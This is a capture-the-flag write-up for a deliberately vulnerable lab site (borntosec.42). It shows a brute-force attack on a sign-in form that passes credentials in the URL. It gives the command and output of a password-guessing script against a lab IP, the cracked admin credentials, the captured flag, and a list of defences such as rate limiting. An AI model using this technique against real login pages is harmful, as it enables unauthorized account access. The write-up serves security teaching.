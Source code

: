 # Bruteforcing a password
- a method of attempting to gain unauthorized access by systematically trying all possible combinations of characters until the correct password is found
- this trial-and-error attack can be time-consuming, especially if the password is long and complex
- https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force

<b>keywords</b>: bruteforce<br>
<b>attacked site</b>: http://borntosec.42/index.php?page=signin

## Exploit
After logging in with an empty username and password combination, we observe that the credentials are directly passed in the URL:
```
http://borntosec.42/index.php?page=signin&username=&password=&Login=Login#
```
This means we can attempt to brute force our way into the 'admin' account using a custom Python script and a file containing the 1000 most commonly used passwords:
``` shell
└─$ python3 bruteforce.py admin http://192.168.56.106/ 1000-most-common-passwords.txt 
Bruteforcing user admin on http://192.168.56.106/

     Cracking password [🔒    🔑   ]
```
After some time, the password is revealed:
``` shell
Bruteforcing user admin on http://192.168.56.106/

Credentials cracked! admin:shadow
```

When we log in with the acquired credentials, the flag is displayed:
```
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## Flag
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

## Exploit prevention
- do not display login credentials directly in URLs
- limit the number of failed login attempts (temporarily ban the account)
- limit the rate of login attempts from a single IP address
- use strong password policies
- employ CAPTCHA
